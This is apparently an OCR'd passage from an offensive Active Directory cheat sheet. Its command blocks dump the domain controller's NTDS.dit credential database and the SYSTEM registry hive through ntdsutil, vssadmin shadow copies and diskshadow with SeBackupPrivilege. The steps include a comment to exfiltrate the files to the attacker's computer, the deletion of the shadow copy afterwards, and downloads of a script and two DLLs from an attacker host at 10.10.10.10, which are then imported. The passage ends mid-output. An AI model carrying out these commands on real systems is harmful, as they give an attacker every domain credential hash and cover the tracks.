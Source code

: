 ```
ntdsutil
activate instance ntds
ifm
create full C:\ntdsutil
quit
quit
```


### Obtaining NTDS.dit Using vssadmin

```
mkdir c:\extract
REM -> c:\Windows\system32
vssadmin create shadow /for=c:
copy \\?GLOBALROOT\Device\HarddiskVolumeShadowCopy5\Windows\ntds\ntds.dit c:\extract\ntds.dit
reg SAVE HKLM\SYSTEM c:\extract\SYS
REM yes
REM exfiltrate to your attacker computer
REM housekeeping
vssadmin delete shadows /shadow={PATH} /Quiet
```


### Obtaining NTDS.dit Using shadow copy (SeBackup)

```
# Create  script.txt file that will contain the shadow copy process script
#Script ->{
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  

create  

expose %mydrive% w:  
end backup  
#}

# TRANSFERT TO TARGET SYSTEM
Invoke-WebRequest -Uri "http://10.10.10.10/script.txt" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\script.txt"

# EXEC DISKSHADOW
cd C:\windows\system32\spool\drivers\color
diskshadow.exe -s script.txt

# CHECK THE CAB
ls
-a----         6/7/2020   9:31 PM            743 example.cab

# IMPORTING DLL SeBackupPrivilegeCmdLets & SeBackupPrivilegeUtils
Invoke-WebRequest -Uri "http://10.10.10.10/SeBackupPrivilegeCmdLets.dll" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\SeBackupPrivilegeCmdLets.dll"
Invoke-WebRequest -Uri "http://10.10.10.10/SeBackupPrivilegeUtils.dll" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\SeBackupPrivilegeUtils.dll"
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll

# CHECK MODULE
get-help SeBackupPrivilege
Name                              Category  Module                    Synopsis
----                              --------  ------                    --------
```